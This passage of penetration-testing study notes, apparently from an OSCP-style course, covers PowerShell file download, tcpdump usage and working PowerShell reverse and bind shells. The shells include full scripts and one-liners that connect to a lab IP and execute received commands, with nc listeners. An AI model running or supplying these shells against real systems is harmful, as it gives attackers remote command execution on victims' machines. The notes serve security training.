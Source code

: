 Option **-c** - execute the supplied command (wrapped in double-quotes). "new-object" cndlet -  instantiate either a **.Net** Framework or a **COM** object. **WebClient** class - is defined and implemented in the **System.Net** namespace. WebClient exposes public method **DownloadFile**, which requires our two key parameters: a source location, and a target location.
### PowerShell Reverse Shells
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);  #assign the target IP address
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0}; #byte array
#reading and writing data to the network stream 
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String ); #InvokeExpression cmdlet -it runs any string it receives as a command
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
```cmd
#listener - 10.11.0.4
kali@kali:~$ sudo nc -lnvp 443
#target
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
### PowerShell Bind Shells
```cmd
#target
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Clos ();$listener.Stop()"
#local
kali@kali:~$ nc -nv 10.11.0.22 443
```
*System.Net.Sockets.TcpListener class, 0.0.0.0 - local address*
## tcpdump
**Tcpdump** - text-based network sniffer. It can both capture traffic from the network and read existing capture files.
```console
#Display a pcap file
kali@kali:~$ tcpdump -r password_cracking_filtered.pcap
08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [S], seq 1855084074, w in 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
#Display ips, filter and sort
kali@kali:~$ sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3}' | sort | uniq -c | head
#Grab a packet capture on port 80
kali@kali:~$ tcpdump tcp port 80 -w output.pcap -i eth0
```